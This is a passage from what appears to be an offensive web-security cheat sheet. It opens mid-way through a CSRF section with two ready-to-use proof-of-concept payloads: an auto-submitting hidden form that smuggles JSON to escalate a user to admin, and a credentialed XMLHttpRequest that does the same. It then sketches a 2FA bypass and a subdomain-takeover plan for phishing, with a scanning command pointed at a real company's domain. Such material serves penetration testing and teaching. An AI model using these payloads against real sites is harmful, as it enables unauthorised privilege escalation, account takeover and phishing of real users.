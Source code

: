With autosubmit send form, which bypasses certain browser protections such as the Standard option of [Enhanced Tracking Protection](https://support.mozilla.org/en-US/kb/enhanced-tracking-protection-firefox-desktop?as=u&utm_source=inproduct#w_standard-enhanced-tracking-protection) in Firefox browser :

```html
<form id="CSRF_POC" action="www.example.com/api/setrole" enctype="text/plain" method="POST">
// this input will send : {"role":admin,"other":"="}
 <input type="hidden" name='{"role":admin, "other":"'  value='"}' />
</form>
<script>
 document.getElementById("CSRF_POC").submit();
</script>
```

### JSON POST - Complex Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

## 6. Two-Factor Authentication (2FA) Bypass

### Exploitation:
- Login to an account where 2FA is implemented.
- Try directly accessing resources after authentication without entering OTP.

## 7. Hostile Subdomain Takeover

### Attack Scenario:
1. Find subdomains that point to inactive services.
2. Register on the third-party service and claim the subdomain.
3. Set up phishing attacks on the hijacked subdomain.

### Scanning for Takeovers:
```bash
ruby sub_brust.rb --fast nokia.com
```

## References:
- [PayloadsAllTheThings - CORS Misconfiguration](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration)
- [CRLF Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CRLF%20Injection)
- [SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SSRF)
- [CSRF Exploits](https://github.com/qazbnm456/awesome-web-security/blob/master/README.md#csrf---cross-site-request-forgery)

---